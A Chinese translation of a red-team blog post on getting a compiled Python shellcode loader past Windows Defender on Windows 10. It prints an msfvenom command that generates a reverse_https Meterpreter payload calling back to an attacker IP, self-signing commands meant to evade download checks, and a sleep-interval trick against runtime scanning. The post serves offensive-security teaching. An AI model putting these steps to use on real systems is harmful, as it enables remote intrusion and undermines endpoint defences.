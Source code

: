 # Pythonic 恶意软件:通过编译的可执行文件逃避检测

> 原文：<https://infosecwriteups.com/pythonic-malware-evading-detection-with-compiled-executables-20194ab0719c?source=collection_archive---------2----------------------->

![](img/8f9437a38ddecef27927c9a2a2ea7a70.png)

照片由[科比·门德斯](https://unsplash.com/@kobbyfotos?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄

在攻击性安全约定期间创建 Python 可执行文件曾经是一种有效的规避方法。然而，这种策略在现代 Windows 终端上变得越来越困难。

事实上，即使是良性的程序似乎也会在接触磁盘后立即被阻止。这只是 red teamers 从流行的框架如[面纱规避](https://github.com/Veil-Framework/Veil-Evasion)转向更大更好的东西的原因之一。

这篇文章回顾了编译的 Python 在攻击性安全测试中的使用，并分享了我在完全修补的 Windows 10 系统上启动 Meterpreter shells 来对抗 Windows Defender 的经验。

# 恶意软件创建

鉴于我主要关注的是编译后的可执行文件中的规避策略，我创建了一个简单的外壳代码加载器作为我的“恶意软件”。该脚本调用常见的 Windows 函数，如`VirtualAlloc` & `CreateThread`在当前进程中本地注入外壳代码。

有效载荷本身利用了通过端口 443 的`reverse_https`连接，由 MSFVenom 生成，没有任何编码或混淆技术:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

在这一点上，我对代码没有多少信心，认为它肯定会被检测到。但是，当尝试直接执行 Python 脚本时，不会触发任何警报，并且会建立反向连接。

![](img/b2dac6251a55353988e7e042200b3481.png)

作者照片

# 编译 Python

尽管触发了一个成功的 Meterpreter shell，但我不能指望 Python 安装在每个 Windows 工作站上。因此，下一步是编译源代码——使其可执行，而不需要主机上的任何额外资源。

使用`pyinstaller`、 `py2exe`或`cx_freeze`等工具编译 Python。这些通过将脚本的字节码版本(`.pyc`)和所有需要的依赖/解释器打包到一个单独的`.exe`文件中来实现:

```
pyinstaller --onefile .\shellcode_loader.py
```

不幸的是，在将新编译的`shellcode_loader.exe`下载到目标系统上时，我没走多远就收到了以下警告:

![](img/aefb95637b60795bb82a8018e65b8174.png)

作者照片

# 逃避检测

## 代码签名

此时，我考虑了避免检测的潜在策略，并研究了用自签名证书对可执行文件进行签名。

使用 Visual Studio Developer 命令提示符，我执行了以下命令来生成一个证书并对`shellcode_loader.exe`文件进行签名。

```
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

现在，查看文件的属性，“Joe's-Software-Emporium”列在数字签名详细信息— *(微软默认)*下。这样，可执行文件就可以被下载而不被检测到。

![](img/7a4578cb5e835d8f6b324432f72ab43e.png)

作者照片

## 睡眠间隔

尽管可以下载该文件，但 Windows Defender 在尝试执行时仍会标记该程序。这时候我想起了阅读 [F-Secure 关于逃避 Windows Defender 运行时扫描的帖子](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/)，其中提供了许多很好的提示。

简而言之，我发现在 Win32 API 调用之间添加各种睡眠间隔绕过了运行时扫描，并成功触发了一个工作的反向 shell。

![](img/4741b00959e59095ada801237ab014fe.png)

作者照片

# 结论

在真正的 red 团队合作中，编译的 Python 可执行文件不会是我的第一选择。然而，这是一个有趣的概念验证，可能在攻击性安全测试的其他领域有用。

我的 `shellcode_loader.py`脚本的最终副本可以在[**GitHub**](https://gist.github.com/m8sec/864c1feb9718e21df06e9bc5bb52f60f) 上找到。

感谢阅读！在 [m8sec.dev](https://m8sec.dev) 了解更多关于我的信息，并关注更多攻击性安全内容。

*免责声明:所有内容仅用于教育目的。作者不对信息的使用负责。不要对你不拥有或没有明确许可的系统进行测试。*